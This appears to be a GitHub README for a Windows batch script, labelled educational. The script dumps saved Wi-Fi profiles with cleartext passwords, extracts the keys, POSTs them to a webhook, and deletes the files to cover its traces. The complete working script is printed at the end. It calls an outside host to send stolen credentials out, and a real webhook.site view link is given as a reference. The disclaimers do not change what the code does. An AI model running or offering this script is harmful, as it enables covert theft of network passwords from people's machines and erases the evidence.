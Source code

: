 # 🔐 Wi-Fi Profile Extractor | ⚠️ For Educational Use Only

A sleek little batch script to extract saved Wi-Fi profiles (with passwords) on Windows machines.  
Built using native Windows tools (`netsh`, PowerShell) for quick & dirty demonstrations of how *your system already knows your Wi-Fi passwords* — and so can anyone with access. 👀

> ⚠️ **Disclaimer:** This project is for **educational** and **authorized** use only.  
> ❌ **Do NOT use this script on systems you don’t own or don’t have explicit permission to test.**  
> ☠️ Unauthorized use may be illegal under local and international laws (CFAA, GDPR, etc.).

---

## 🚀 What This Script Does

1. 🔍 Dumps all saved Wi-Fi profiles and their keys in cleartext using `netsh`.
2. 🧠 Parses the XMLs to extract just the passwords (`keyMaterial`).
3. ☁️ Uploads the extracted data to your custom webhook (e.g. `Webhook.site`).
4. 🧹 Cleans up all traces (XML files + password dump).

---
## 📦 About This Project

This script is a proof-of-concept to demonstrate how saved Wi-Fi passwords on a Windows machine can be extracted using built-in tools and sent to a remote server — purely for **educational**, **testing**, or **internal audit** purposes.

In this example, the extracted Wi-Fi data is sent to a test endpoint powered by [Webhook.site](https://webhook.site/).  
You can use [this specific view link](https://webhook.site/#!/view/13177c83-0f7f-429f-8134-a54909bef73a) as a reference for how data is received.

> 🛑 **Do NOT use this tool for malicious purposes.** This repo and its contents are for learning, lab setups, and awareness of Windows' saved credential handling only.

### 🧪 Example Usage:

When the script runs, it performs the following:

- Extracts all saved Wi-Fi profiles and plaintext keys using:

## 📁 Script Breakdown

```bat
@echo off
netsh wlan export profile key=clear
timeout /t 2
powershell Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' > WiFi-Key
timeout /t 2
powershell Invoke-WebRequest -Uri "https://your-webhook-url" -Method POST -InFile WiFi-Key
timeout /t 2
del Wi* /s/f/q

##Author : Yashi Singh
